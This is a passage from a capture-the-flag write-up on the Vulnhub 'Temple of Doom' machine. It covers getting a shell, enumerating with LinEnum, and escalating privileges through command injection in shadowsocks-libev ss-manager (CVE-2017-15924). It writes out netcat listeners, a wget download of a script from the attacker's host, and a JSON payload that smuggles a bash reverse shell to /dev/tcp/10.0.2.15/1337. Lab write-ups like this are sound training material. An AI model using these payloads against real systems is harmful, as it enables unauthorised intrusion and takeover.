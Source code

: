   ``` cat exploit.js | base64 | xclip -selection clipboard```
* Paste in burp and send the request, while having already set up a listening session with `nc -lvnp 1337`.

* We get a shell! Now we make it more interactive with `python -c "import pty; pty.spawn('/bin/bash')"` and stop our input from being echoed back at us by `Ctr-Z` to pause the process, `stty raw -echo` and  `fg` to bring back the shell. We can see we are logged in as user **nodeadmin**.
  
  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/9.jpg?raw=true">

## Privilege Escalation
---
**nodeadmin** user has very little privileges in this box.
Trying `ls` in the `/home` directory reveals another user called **fireman**.

* We will use a well-known linux enumeration script called <a href="https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh">LinEnum.sh</a>.

  * `wget` the script on your **Kali** machine and save it int `/var/www/html`.
  *  Run `python -m SimpleHTTPServer 80` to run a python web server, with the current directory as web root.
  *  `wget` the script on the remote machine in `/tmp` folder with `wget http://10.0.2.15/LinEnum.sh`, `chmod +x` on it.
  * **Run it.**

* In the running processes window we notice something interesting

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/10.jpg?raw=true">

A process called **ss-manager** is running as user **fireman**.

* Searching in google reveals <a href="https://www.cvedetails.com/cve/CVE-2017-15924/">CVE-2017-15924</a> and <a href="https://www.exploit-db.com/exploits/43006">exploit-db.com/exploits/43006</a>.
>In manager.c in ss-manager in shadowsocks-libev 3.1.0, improper parsing allows command injection via shell metacharacters in a JSON configuration request received via 127.0.0.1 UDP traffic, related to the add_server, build_config, and construct_command_line functions.

>The configuration file on the file system or the JSON configuration received via UDP request is parsed and the arguments are passed to the "add_server" function. The function calls "construct_command_line(manager, server);" which returns a string from the parsed configuration. The string gets executed at line 486 "if (system(cmd) == -1) {", so if a configuration parameter contains "||evil command&&" within the "method" parameter, the evil command will get executed.

* **ss-manager** listens on port **8839** by default and you can confirm it by running `netstat -altupn`.
* Let's test the exploit by creating a file called **_jsonexploit_** in our machine and writing the following inside
  ```json
  add: {"server_port":8003, "password":"test", "method":"||bash -i >& /dev/tcp/10.0.2.15/1337 0>&1||"}
  ```
which will return a reverse shell to us on port **1337**.
* Get the **jsonexploit** file on the vulnerable machine, using the same method we moved the **LinEnum** script.
* Start a listening session on kali with `nc -lvnp 1337` and execute `nc 127.0.0.1 8839 <jsonexploit` on the **templeofdoom** machine.

